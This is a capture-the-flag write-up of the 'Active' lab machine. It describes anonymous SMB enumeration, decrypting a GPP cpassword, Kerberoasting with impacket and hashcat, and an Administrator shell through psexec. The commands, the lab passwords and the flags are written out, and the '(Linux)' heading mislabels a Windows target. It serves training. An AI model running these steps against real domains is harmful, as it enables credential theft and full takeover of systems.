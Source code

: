 # Active (Linux)

## Enumeration

### Nmap
I began my enumeration by using an inital (agressive) nmap scan to get results as fast as possible, since some of these boxes may take a while to scan all ports.
```
nmap -p- -Pn -T4 10.10.10.100 --min-rate=5000

-p- for scanning all ports
-Pn for no ping to disable host discovery and port scan only
-T4 for agressive (4 means aggressive, 3 is default) timing; speeds up scanning but can be unreliable
--min-rate=5000 to send packets no slower than 5000 per second; speeds ups canning but can be unreliable
```
![nmap1](Images/nmap1.png)

I then do a default NSE script with version detection scan on the well-known ports.
```
nmap -sC -sV -p 53,135,139,445,3269 -Pn -T4 10.10.10.100 --min-rate=5000

-sC for default NSE script
-sV for version detection
```
![nmap2](Images/nmap2.png)

### Smbclient
There's nothing too suspicious, so I try poking around smbclient with anonymous login.
```
smbclient -L 10.10.10.100 -N

-L to list shares on a machine
-N (--no-pass) to suppress the normal password prompt
```
![smbclient](Images/smbclient.png)

Replication is a non-default share, so I attempt to go into that share with anonymous login, and it works.  
Using `ls` to list the files, I see a Groups.xml file.  
I use `get` to grab the file onto my local machine.
```
┌──(kali㉿kali)-[~/Desktop/htb/active]
└─$ smbclient //10.10.10.100/replication -N               
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> 


smb: \active.htb\policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\machine\preferences\groups\> ls
  .                                   D        0  Sat Jul 21 00:37:44 2018
  ..                                  D        0  Sat Jul 21 00:37:44 2018
  Groups.xml                          A      533  Wed Jul 18 10:46:06 2018

		5217023 blocks of size 4096. 277102 blocks available


smb: \active.htb\policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\machine\preferences\groups\> get groups.xml
```

After downloading the XML file, I use `cat` to read the contents of the file. It appears to be an XML file crated by a new Group Policy Prefernce (GPP) creation.

```
┌──(kali㉿kali)-[~/Desktop/htb/active]
└─$ cat groups.xml
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```

Two important points to note:

	• name="active.htb\SVC_TGS"
	• cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"


When a new GPP is created, an associated XML file is created containing the password(s). Microsoft encrypts these passwords using AES and stores it as `cpassword`.  
The username is SVC_TGS and the password is GPP encrypted.

Using gpp-decrypt, I can decrypt the password.
```
┌──(kali㉿kali)-[~/Desktop/htb/active]
└─$ gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ                                 
GPPstillStandingStrong2k18
```
The password for SVC_TGS is GPPstillStandingStrong2k18.

## Initial Foothold
I can now log into the Users share with the user SVC_TGS, using the newly found password.
```
┌──(kali㉿kali)-[~/Desktop/htb/active]
└─$ smbclient //10.10.10.100/users -U SVC_TGS
Password for [WORKGROUP\SVC_TGS]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Sat Jul 21 04:39:20 2018
  ..                                 DR        0  Sat Jul 21 04:39:20 2018
  Administrator                       D        0  Mon Jul 16 00:14:21 2018
  All Users                       DHSrn        0  Mon Jul 13 19:06:44 2009
  Default                           DHR        0  Mon Jul 13 20:38:21 2009
  Default User                    DHSrn        0  Mon Jul 13 19:06:44 2009
  desktop.ini                       AHS      174  Mon Jul 13 18:57:55 2009
  Public                             DR        0  Mon Jul 13 18:57:55 2009
  SVC_TGS                             D        0  Sat Jul 21 05:16:32 2018

		5217023 blocks of size 4096. 277084 blocks available
```

I `cd` to go into the SVC_TGS directory, `cd` into the desktop, then list the files on the desktop with `ls`.
```
smb: \> cd svc_tgs

smb: \svc_tgs\> cd desktop

smb: \svc_tgs\desktop\> ls
  .                                   D        0  Sat Jul 21 05:14:42 2018
  ..                                  D        0  Sat Jul 21 05:14:42 2018
  user.txt                           AR       34  Wed Nov 29 15:47:53 2023

		5217023 blocks of size 4096. 277084 blocks available

smb: \svc_tgs\desktop\> get user.txt


┌──(kali㉿kali)-[~/Desktop/htb/active]
└─$ cat user.txt  
4b88e1b2231905748fb7bd81509eb057
```

## Privilege Escalation
### Kerberoasting
I start by using impacket's GetUserSPNs to get a list of usernames.

```
┌──(kali㉿kali)-[~/Desktop/htb/active]
└─$ sudo impacket-GetUserSPNs -request -outputfile hashes.kerberoast -dc-ip 10.10.10.100 active.htb/SVC_TGS

-request retrieves the crackable hash by requesting the TGS
-outputfile <filename> saves the request to a file named hashes.kerberoast
-dc-ip <IP> the IP address of the domain controller we want to request info from
```

Using hashcat, I cracked the password with the rockyou.txt wordlist.
```
┌──(kali㉿kali)-[~/Desktop/htb/active]
└─$ sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt

-m 13100 is Kerberos 5 TGS-REP etype 23
```
![hashcat](Images/hashcat.png)

^ At the end of that long screenshot, it shows that the password is Ticketmaster1968.  

Using the newly found Administrator credentials, I can use impacket's psexec to log in, use `cd` to move to the desktop, `dir` to list the files, and `type` to view the contents of the root.txt file.
```
┌──(kali㉿kali)-[~/Desktop/htb/active]
└─$ impacket-psexec Administrator:Ticketmaster1968@10.10.10.100

C:\Windows\system32> cd C:\users\administrator\desktop


C:\Users\Administrator\Desktop> dir

30/11/2023  03:47                   34 root.txt

               1 File(s)             34 bytes
               2 Dir(s)   1.134.878.720 bytes free


C:\Users\Administrator\Desktop> type root.txt
e6c81669f64d0caa52a10c8ac41b8ed2
```

